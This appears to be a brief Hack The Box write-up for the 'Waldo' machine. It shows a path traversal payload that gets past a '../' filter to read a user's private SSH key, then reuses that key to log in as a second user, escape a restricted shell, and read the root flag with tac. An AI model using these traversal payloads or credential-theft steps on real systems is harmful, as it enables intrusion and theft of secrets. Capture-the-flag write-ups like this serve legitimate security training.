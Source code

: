 ```yaml
---
title: Waldo
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, lfi]
math: true
---
```

# waldo

In the source code of the http website there is this javascript code:

```javascript
function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```
we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files.
when playing around with requests we can see that there is a filter on the ../../
```path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]```
so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:
```file=....//....//....//....//....//home/nobody/.ssh/.monitor```
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile```
the path is screwed so we have to do:
```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH```
now we can go and have a look around
we eventually figure out that we can use the tac binary to read files

`tac /root/root.txt`

